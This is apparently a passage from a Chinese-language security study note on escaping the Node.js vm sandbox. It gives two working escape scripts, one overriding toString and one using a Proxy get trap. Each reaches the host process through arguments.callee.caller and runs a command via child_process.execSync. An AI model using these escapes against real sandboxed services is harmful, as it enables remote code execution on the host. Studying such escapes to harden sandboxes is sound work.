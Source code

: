 数字，字符串，布尔这些是primitive类型，他们在传递的过程是将值传递过去而不是引用，而对于数组、对象这些传递的是引用。

因此这里的`this`换成m、n、x亦行。

# 0x04 vm沙箱逃逸下记

### Problem 1

若沙箱对象是null，没有可以引用的对象，此时如何逃逸呢

```javascript
const sandbox = Object.create(null);
```

要用到一个函数中的内置对象的属性`arguments.callee.caller`

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = {};
    a.toString = function () {
        const c = arguments.callee.caller;
        const p = (c.constructor.constructor('return process'))();
        return p.mainModule.require('child_process').execSync('calc');
    }
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res);
```

在沙箱内创建了一个对象，将这个对象的toString方法重写了，通过`argument.callee.caller`获得沙箱外的一个对象。沙箱外log中通过字符串拼接的方法触发了重写后的toString函数，进而RCE。

### Problem 2

若沙箱外没有执行字符串的操作来触发这个toString，并且沙箱中的对象也没有可以进行恶意重写的方法，可以用`Proxy`来劫持属性（？有点像Java的动态代理）

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
res.abc;
```
